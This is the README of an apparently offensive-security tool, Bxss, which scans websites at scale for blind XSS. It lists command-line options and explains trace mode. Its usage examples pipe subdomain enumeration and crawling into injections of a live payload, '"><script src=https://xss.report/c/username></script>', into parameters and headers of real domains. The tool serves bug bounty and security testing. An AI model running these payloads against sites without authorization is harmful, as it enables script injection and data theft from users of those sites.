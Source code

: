 <h1 align="center">
  <br>
  <img src="https://github.com/ethicalhackingplayground/bxss/blob/master/static/blinded-drib.png" width="200px" alt="Bxss">
  <br>
  Bxss - Blind XSS Scanner
</h1>

<p align="center">
  <a href="https://github.com/ethicalhackingplayground/bxss/releases/latest">
    <img src="https://img.shields.io/github/v/release/ethicalhackingplayground/bxss?style=flat-square" alt="Version">
  </a>
  <a href="https://github.com/ethicalhackingplayground/bxss/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/License-MIT-yellow.svg?style=flat-square" alt="License">
  </a>
  <a href="https://goreportcard.com/report/github.com/ethicalhackingplayground/bxss">
    <img src="https://goreportcard.com/badge/github.com/ethicalhackingplayground/bxss?style=flat-square" alt="Go Report Card">
  </a>
  <a href="https://pkg.go.dev/github.com/ethicalhackingplayground/bxss">
    <img src="https://pkg.go.dev/badge/github.com/ethicalhackingplayground/bxss.svg" alt="Go Reference">
  </a>
</p>

---

## 🚀 Description
Bxss is a high-performance Blind XSS scanner that automates the detection of blind XSS vulnerabilities in web applications.

---

## ✨ Features
- Injects Blind XSS payloads into custom headers & parameters
- Supports multiple HTTP methods (PUT, POST, GET, OPTIONS)
- High-speed scanning with concurrency support
- Easily chainable with other tools
- Simple installation and usage

---

## 📦 Installation
```bash
go install -v github.com/ethicalhackingplayground/bxss/v2/cmd/bxss@latest
```

---

## ⚙️ Arguments

| Argument       | Description                                             | Default  |
| ------------- | -------------------------------------------------------- | -------- |
| `-a`          | Append the payload to the parameter                      | `false`  |
| `-c int`      | Set the concurrency level                                | `30`     |
| `-H string`   | Set a custom header                                      | `""`     |
| `-hf string`  | Path to file with headers                                | `""`     |
| `-p string`   | The blind XSS payload                                    | `""`     |
| `-pf string`  | Path to file with payloads                               | `""`     |
| `-t`          | Test parameters for blind XSS                            | `false`  |
| `-X string`   | HTTP method to use                                       | `""`  |
| `-v`          | Enable debug mode                                        | `false`  |
| `-rl float`   | Rate limit (requests per second)                         | `0`      |
| `-f`          | Follow redirects                                         | `false`  |
| `-l`          | Enable Trace Mode (experimental)                          | `false`  |
---

## 🎬 Demonstration
<p align="center">
  <a href="https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm">
    <img src="https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm.svg" alt="Demo">
  </a>
</p>

---

## 📝 What is Trace mode?
Trace mode is an experimental feature that allows you to track where the BlindXSS got triggered, some third party BlindXSS platforms such as (https://xss.report/)[https://xss.report/] allows you to specify custom parameters in you're payloads, this allows you to track where the BlindXSS got triggered, for example if you specify the parameter `url=https://somehost.com` in your payload, the tool will use the payload `'"><script src=https://xss.report/c/username?url=https://somehost.com></script>` this for testing and upon a trigger you will be able to inspect the DOM and see what host the BlindXSS got triggered from.

 <img src="https://github.com/ethicalhackingplayground/bxss/blob/master/static/xss.report.png" width="200px" alt="Xss Report">

Make sure when assigning custom parameters in you're dashboard that you assign `url={LINK}` so bxss can automatically replace `{LINK}` with the actual URL. 

## 🔥 Usage Examples

### Parameters
```bash
subfinder -d uber.com \
| gau \
| grep "&" \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-t
```

### Append To Parameters
```bash
subfinder -d uber.com \
| gau \
| grep "&" \
| bxss -a -p '><script src=https://xss.report/c/username></script>' \
-t
```

### Both Headers & Parameters
```bash
subfinder -d uber.com \
| gau \
| grep "&" \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-H "User-Agent" \
-t
```

### X-Forwarded-For Header
```bash
subfinder -d uber.com \
| gau \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-H "X-Forwarded-For"
```

### Custom Headers & Parameters
```bash
echo uber.com \
| haktrails subdomains \
| httpx \
| hakrawler -u \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-H "User-Agent" \
-t
```

### Google Dorks With Dorki
```bash
curl -X GET -H "Authorization: Bearer <Token>" \
-H "X-Secret-Key: <Secret>" \
https://dorki.attaxa.com/api/search?q=site:example.com -s \
| jq -r .[][].url \
| grep "&" \
| bxss -a -p '><script src=https://xss.report/c/username></script>'
```

### Custom Headers & Parameters With Rate Limit
```bash
echo uber.com \
| haktrails subdomains \
| httpx \
| hakrawler -u \
| bxss -a -p '><script src=https://xss.report/c/username></script>' \
-H "User-Agent" \ 
-t \
-rl 10
```

For advanced dorking and vulnerability exploration, check out [Dorki](https://dorki.attaxa.com/) and sign up today!

---

## ☕ Support the Project
If you get a bounty using this tool, consider supporting by buying me a coffee!

<p align="center">
  <a href="https://buymeacoffee.com/zoidsec" target="_blank">
    <img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;">
  </a>
</p>

